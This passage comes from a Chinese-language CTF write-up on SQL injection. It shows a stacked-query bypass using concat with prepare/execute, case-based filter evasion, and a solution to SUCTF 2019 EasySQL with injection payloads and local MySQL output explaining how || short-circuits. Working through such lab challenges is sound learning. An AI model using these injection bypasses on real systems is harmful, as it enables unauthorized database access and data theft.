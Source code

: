 预编译的语句是字符串的形式, 所以可以使用 concat 等字符串操作函数进行拼接来绕过 select 的过滤

```sql
set @a = concat("sel","ect flag from `1919810931114514`");
prepare st from @a
execute st;
```

这里的语句还能用 hex 编码绕过

试了一下返回 `strstr($inject, "set") && strstr($inject, "prepare")`

不过 `strstr()` 区分大小写, 改一下就行了, sql 语句对大小写不敏感

## [SUCTF 2019]EasySQL

![20220821132122](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220821132122.png)

过滤了 union and or sleep update insert delete from handler flag

数字型注入, 支持堆查询, 但有长度限制, 最长39个字符

```sql
1;show tables;
```

![20220821132301](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220821132301.png)

查不了列名, 因为过滤了 Flag

于是决定看一下 wp...

> 这道题目需要我们去对后端语句进行猜测, 有点矛盾的地方在于其描述的功能和实际的功能似乎并不相符, 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有 ||, 也就是 `select 输入的数据||内置的一个列名 from 表名`, 进一步进行猜测即为 `select post 进去的数据||flag from Flag` (含有数据的表名, 通过堆叠注入可知), 需要注意的是, 此时的 || 起到的作用是 or 的作用.

```php
sql = "select $_POST['query'] || flag from Flag";
```

**第一种解法: 提交 `*,1`**

看到 `||` 想到了之前命令执行的 payload

```bash
cmd1 || cmd2 # 如果 cmd1 正常执行就不会执行 cmd2
```

SQL 中逻辑运算符 `||` 的判断跟上面的一样, 如果前面的条件为 true 就不会执行后面的条件 (因为此时整个条件已经满足 true), 如果前面的条件为 false, 则会进一步判断后面的条件, 进而检查整个条件是 true 还是 false

因为直接 select 字符串不方便理解, 这里本地用 sleep 为例

```sql
mysql> select * from Flag;
+------------+
| flag       |
+------------+
| flag{test} |
+------------+
1 row in set (0.00 sec)

mysql> select 1 || sleep(1) from Flag;
+---------------+
| 1 || sleep(1) |
+---------------+
|             1 |
+---------------+
1 row in set (0.00 sec)

mysql> select 0 || sleep(1) from Flag;
+---------------+
```